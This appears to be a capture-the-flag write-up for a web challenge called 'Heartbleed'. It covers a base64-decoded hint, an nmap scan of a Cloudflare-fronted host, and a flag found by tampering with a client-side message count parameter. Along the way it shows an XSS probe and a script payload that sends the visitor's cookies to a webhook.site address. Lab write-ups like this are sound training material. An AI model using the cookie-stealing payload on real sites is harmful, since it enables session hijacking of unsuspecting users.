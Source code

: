 ```yaml
---
title: Heartbleed
description: web
---
```


# Heartbleed

Note: You may run these commands on one or two VMs.

if we open <target>.js, we get the following:

function callme() {
  console.log("UmVtZW1iZXIsIGEgc2VydmVyIHNob3VsZCBuZXZlciBibGluZGx5IHRydXN0IGNsaWVudHMnIGlucHV0IC0gZXZlbiBpZiB0aGUgaW5wdXQgaXMgZ2VuZXJhdGVkIGJ5IGEgc2NyaXB0Lg==");
}

document.getElementById('message').onkeyup = function () {
  message_count = this.value.length;
  document.getElementById("message_count").value = message_count;
  document.getElementById('count').innerHTML = message_count;
};

from base64 we get:
Remember, a server should never blindly trust clients' input - even if the input is generated by a script.

this neans we should find a backend and try to send it inputs.

Also we get a xss to show up using 

```
<script>alert(1)</script>
```

```
<script>
  var img = new Image();
  img.src = 'https://webhook.site/<url>?cookie=' + document.cookie;
</script>
```

and we get a get request.

However no luck from this as it is not a flag.

 nmap -sV -sC <target>.com

Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
443/tcp  open  ssl/http Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
| ssl-cert: Subject: commonName=<target>.com
| Subject Alternative Name: DNS:<target>.com, DNS:*.<target>.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
8080/tcp open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
8443/tcp open  ssl/http Cloudflare http proxy
| ssl-cert: Subject: commonName=<target>.com
| Subject Alternative Name: DNS:<target>.com, DNS:*.<target>.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
|_http-server-header: cloudflare
|_http-title: Site doesn't have a title (text/plain; charset=UTF-8).

And it is behind a cloudflare, which I will not try to test.

None of these worked, but then I noticed there was a message count. I tried to change this value to something else and see what would happen. 

![alt text](/images/heartbleed/image-1.png)
![alt text](/images/heartbleed/image-2.png)

I found the flag by changing the value of this message count. 

